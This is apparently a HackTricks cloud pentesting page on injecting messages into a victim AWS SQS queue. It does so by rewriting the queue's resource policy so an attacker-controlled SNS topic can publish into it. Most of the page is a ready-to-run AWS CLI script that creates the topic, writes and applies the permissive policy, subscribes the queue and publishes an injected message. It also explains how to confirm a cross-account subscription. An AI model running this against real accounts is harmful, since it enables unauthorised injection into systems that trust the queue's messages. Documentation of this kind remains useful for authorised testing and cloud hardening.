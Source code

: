 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

{{#include ../../../../banners/hacktricks-training.md}}

## Description

Abuse an SQS queue resource policy to allow an attacker-controlled SNS topic to publish messages into a victim SQS queue. In the same account, an SQS subscription to an SNS topic auto-confirms; in cross-account, you must read the SubscriptionConfirmation token from the queue and call ConfirmSubscription. This enables unsolid message injection that downstream consumers may implicitly trust.

### Requirements
- Ability to modify the target SQS queue resource policy: `sqs:SetQueueAttributes` on the victim queue.
- Ability to create/publish to an SNS topic under attacker control: `sns:CreateTopic`, `sns:Publish`, and `sns:Subscribe` on the attacker account/topic.
- Cross-account only: temporary `sqs:ReceiveMessage` on the victim queue to read the confirmation token and call `sns:ConfirmSubscription`.

### Same-account exploitation

```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
  "Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```

### Cross-account notes
- The queue policy above must allow the foreign `TOPIC_ARN` (attacker account).
- Subscriptions won’t auto-confirm. Grant yourself temporary `sqs:ReceiveMessage` on the victim queue to read the `SubscriptionConfirmation` message and then call `sns confirm-subscription` with its `Token`.

### Impact
**Potential Impact**: Continuous unsolid message injection into a trusted SQS queue via SNS, potentially triggering unintended processing, data pollution, or workflow abuse.

{{#include ../../../../banners/hacktricks-training.md}}

